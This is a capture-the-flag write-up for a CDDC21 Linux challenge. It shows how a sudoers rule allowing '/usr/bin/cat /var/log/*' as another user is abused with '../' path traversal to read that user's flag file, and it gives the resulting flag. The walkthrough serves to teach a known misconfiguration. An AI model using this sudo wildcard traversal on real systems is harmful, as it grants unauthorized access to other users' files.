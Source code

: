 # Linux 5 &ndash; Super

## Challenge Description

This bot doesn’t look so important, it seems like he can do nothing… figure out how you can move on to the next user.

## Note

The Linux challenges are consecutive, starting from [part 1](../1%20-%20Lock%20and%20Key).

---

## Solution

First, we must log in to `bot5`, using the previous flag as the password, and then change directory to `bot5`'s home directory:
```
bot3@cybot01:~$ su bot5
Password: 
bot5@cybot01:/home/bot4$ cd ~
```

In the home directory, there is `flag.txt`. However, it is owned by `bot6`, and only `bot6` is allowed to read the file:

```sh
bot5@cybot01:~$ ls -la
total 24
dr-xr-x---  2 root bot5 4096 Jun 18 09:51 .
drwxr-xr-x 10 root bot5 4096 Jun 18 09:51 ..
lrwxrwxrwx  1 root root    9 Jun 18 09:51 .bash_history -> /dev/null
-rwx------  1 root bot5    1 Jun 23 11:08 .bash_logout
-rwx------  1 root bot5  647 Jun 23 11:31 .bashrc
-rwxrwxrwx  1 root bot5   24 Jun 24 08:37 .profile
-r--------  1 bot6 root   22 Jun 18 09:51 flag.txt
```

Dang, this bot is almost as useless as I am. Luckily, we can use `sudo` to run things as other users.

```sh
sudo -u <username> <command>
```

To see what we can do, we can use `sudo -ll`. The `-l` switch lists the current user's privileges, and `-ll` does the same but in a longer format.

```text
bot5@cybot01:~$ sudo -ll
Matching Defaults entries for bot5 on cybot01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bot5 may run the following commands on cybot01:

Sudoers entry:
    RunAsUsers: bot6
    RunAsGroups: bot6
    Options: !authenticate
    Commands:
	/usr/bin/cat /var/log/*
```

We can see that we can run `/usr/bin/cat /var/log/*` as `bot6`.

Luckily for us, since they used a wildcard `*`, we can traverse the directories from `/var/log/` to reach our flag file:

```text
bot5@cybot01:~$ sudo -u bot6 /usr/bin/cat /var/log/../../home/bot5/flag.txt 
CDDC21{b3w4r3sud03rz}
```

(Thanks a bunch to my teammate [@ThinkerPal](https://github.com/ThinkerPal/) who pointed out the `/../../` thing!)

### Flag

```text
CDDC21{b3w4r3sud03rz}
```

[< Part 4](../4%20-%20Line%20Inspection) | [Part 6 (by @ThinkerPal)](https://github.com/ThinkerPal/CTF-Writeups/tree/master/2021-02-CDDC/Linux%20Rules%20the%20World/6%20-%20Path%20to%20Win)
